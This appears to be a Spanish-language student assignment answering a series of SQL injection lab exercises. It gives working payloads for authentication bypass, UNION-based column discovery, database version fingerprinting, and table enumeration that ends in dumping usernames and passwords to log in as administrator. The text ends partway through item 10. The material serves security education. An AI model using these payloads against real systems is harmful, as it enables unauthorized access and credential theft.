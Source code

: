 # Practico 3 Base De Datos

```sql
```
# Práctico 3 Base De Datos – Jose Ignacio Lavecchia

1- '+ OR 1 = 1 –  
También se podría hacer algo como esto:

SELECT * FROM products WHERE category = '' OR '1' = '1' AND released = 0; 

Suponiendo que released es un booleano en el que 0 es el valor de productos que no han sido liberados y 1 el de productos que ya han sido liberados.

2- Modificamos el parámetro de username con administrator '-- ya que así todo lo que siga en la consulta será ignorado por el -- de los comentarios.

3- La idea es realizar un ataque con el comando UNION, pero antes debemos asegurarnos de que el número de columnas en la consulta original coincide con el número de columnas de nuestra SQL Injection. Para esto, el comando UNION solo va a funcionar si el número y tipo de columnas coinciden.

Para esto, utilizamos un payload como este: 
'+UNION+SELECT+'abc','def'+FROM+dual--

Después procedemos a intentar obtener algún tipo de información de la base de datos, como por ejemplo la versión, para esto utilizamos el siguiente payload:

'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

4- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

# = Comentario

Después utilizamos el siguiente payload para saber la versión de la base de datos:

'+ UNION+SELECT @@version, +NULL#

5- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

Procedemos a utilizar el siguiente payload para que nos devuelva las tablas en la base de datos:

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.columns+WHERE+table_name = 'users_abcdef'—

Después de encontrar las columnas que contienen los usernames y las passwords, utilizamos el siguiente payload para que nos devuelva los usuarios y contraseñas para todos los usuarios:

'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef—

Finalmente encontramos la contraseña para el usuario “administrator” y nos logueamos.

6- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def' +FROM+dual—

Procedemos a utilizar el siguiente payload para obtener la información de la lista de tablas en la base de datos:

'+UNION+SELECT+table_name,NULL+FROM+all_tables—

Después de encontrar la tabla que tiene las credenciales del usuario, procedemos a realizar el siguiente payload para recibir información de las columnas de la tabla:

'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'—

Procedemos a ejecutar el siguiente payload para recibir la información de los usuarios y sus contraseñas:

'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF—

Por último, simplemente encontramos al usuario llamado 'administrator' y su contraseña y nos logueamos.

7- Para determinar el número de columnas devueltas por la query, simplemente ejecutamos el siguiente payload:

'+UNION+SELECT+NULL,NULL—

Continuamos añadiendo NULL, hasta que compile correctamente.

8- Primero determinamos el número de columnas devueltas por la query, una vez que obtenemos la cantidad de consultas correctas, simplemente empezamos a reemplazar cada NULL por un string hasta que compile correctamente, obteniendo así la columna de tipo texto.

'+UNION+SELECT+NULL,NULL,NULL—

'+UNION+SELECT+'seraestalacolumnadetipotexto?',NULL,NULL—

9- Primero determinamos el número de columnas devueltas por la query y cuáles de ellas contienen datos:

'+UNION+SELECT+'abc','def'—

Después ejecutamos el siguiente payload para obtener las credenciales de la tabla de usuarios:

'+UNION+SELECT+username,+password+FROM+users—

Encontramos al usuario llamado 'administrator' y nos logueamos.

10- Primero determinamos el número de columnas devueltas por la query y cuáles de ellas contienen datos:

'+UNION+SELECT+NULL,'abc'—

Después ejecutamos el siguiente payload para obtener las credenciales de la tabla de usuarios en una misma columna, concatenados y separados por el carácter '~'.
